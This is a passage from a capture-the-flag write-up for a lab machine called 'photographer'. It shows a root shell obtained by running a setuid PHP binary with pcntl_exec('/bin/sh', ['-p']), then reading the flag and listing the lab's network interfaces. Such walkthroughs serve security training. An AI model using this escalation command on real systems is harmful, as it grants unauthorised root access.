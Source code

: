 <br />
Use the php binary to escalate your privilege.

{% raw %}
```sh
www-data@photographer:/dev/shm$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
<shm$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"                    
# whoami
whoami
root
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```sh
# cat proof.txt
cat proof.txt

<snip>

<redacted>
# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:2f:84:a3 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.15/24 brd 10.0.0.255 scope global dynamic enp0s3
       valid_lft 585sec preferred_lft 585sec
    inet6 fe80::6c05:5fdd:681b:cd25/64 scope link 
       valid_lft forever preferred_lft forever
```
{% endraw %}

<br />
And with that we finished up another one.